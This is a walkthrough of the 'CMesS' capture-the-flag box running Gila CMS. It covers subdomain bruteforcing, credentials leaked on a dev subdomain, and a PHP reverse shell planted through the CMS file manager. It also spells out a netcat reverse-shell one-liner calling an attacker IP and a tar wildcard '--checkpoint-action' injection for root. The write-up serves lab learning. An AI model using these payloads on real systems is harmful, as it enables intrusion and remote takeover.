 # [cd ../](../index.md)
# CMesS
> Can you root this Gila CMS box?  
> Please add `10.10.28.87 cmess.thm` to **/etc/hosts**

# Start

## Recon

### Nmap
```
nmap -A -T4 -p- cmess.thm
```
Open ports are: 
- 22 - OpenSSH 7.2p2 
- 80 - Apache httpd 2.4.18 

### Website
![web](web.png)  
There is nothing interesting here. ):

### Dirsearch
![dsearch](dsearch.png)  
We have a login on `/admin` but we dont have creds!

### Subdomain bruteforcing
```
ffuf -c -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -fl 108
```
We need the `-fl 108` to avoid junk.  
![ffuf](ffuf.png)  
We got only one subdomain `dev.cmess.thm`  
- Add `dev.cmess.thm` to **/etc/hosts**  
  ![hosts](hosts.png)

## Admin panel
If we go there we can see a user and a password!  
![pass](pass.png)  
`andre@cmess.thm`:`KPFTN_f2yxe%`  
Use these creds in `cmess.thm/admin`  
![login](login.png)  
And now we have an admin panel!

## Getting a lowpriv shell
Go to ***Content***->***File Manager***  
Open the index.php and replace the content with a [php reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)  
![revshell](revshell.png)  
Now just go to `http://cmess.thm` while our nc is listening and BOOM we got a revshell as **www-data** !!

## Privesc
### Linenum
An interesting cronjob is running
```
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```
We got `/opt/.password.bak` at the end of the linenum

```
cat /opt/.password.bak
```
And we got:
```
andres backup password
UQfsdCB7aAP6
```
Now just ssh in as andre with the new creds `andre`:`UQfsdCB7aAP6`  
And we got the ***SHELL*** as ***andre***  
Btw we got the user flag too from `/home/andre/user.txt`

## Getting ROOT
### Linenum again :D
We see the cronjob again and nothing more  
We have to do stg with it  
We need the [Wildcard exploit](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)  

### Creating the exploit
Lets make a reverse nc with msfvenom!
```
msfvenom -p cmd/unix/reverse_netcat lhost=10.8.22.204 lport=31337 R
```
And we got the payload:
```
mkfifo /tmp/gpactj; nc 10.8.22.204 31337 0</tmp/gpactj | /bin/sh >/tmp/gpactj 2>&1; rm /tmp/gpactj
```

### Exploiting
```
echo "mkfifo /tmp/gpactj; nc 10.8.22.204 31337 0</tmp/gpactj | /bin/sh >/tmp/gpactj 2>&1; rm /tmp/gpactj" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
Now we just have to wait a lilbit  
![gotroot](gotroot.png)

# Got root and got the flag from `/root/root.txt`
